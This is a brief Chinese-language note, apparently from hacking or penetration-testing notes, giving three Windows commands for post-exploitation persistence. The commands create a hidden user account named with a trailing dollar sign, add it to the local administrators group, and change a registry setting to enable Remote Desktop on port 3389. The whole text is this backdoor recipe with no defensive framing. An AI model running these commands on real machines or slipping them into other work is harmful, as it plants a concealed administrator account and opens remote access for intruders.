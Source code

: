 留下隐藏用户的权限：

`net user feiyu$ feiyu /add`

将建立的用户加入到管理员组。

`net localgroup administrators feiyu$ /add`

在用户的cmd 下开启3389远程端口。

​	`REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f`

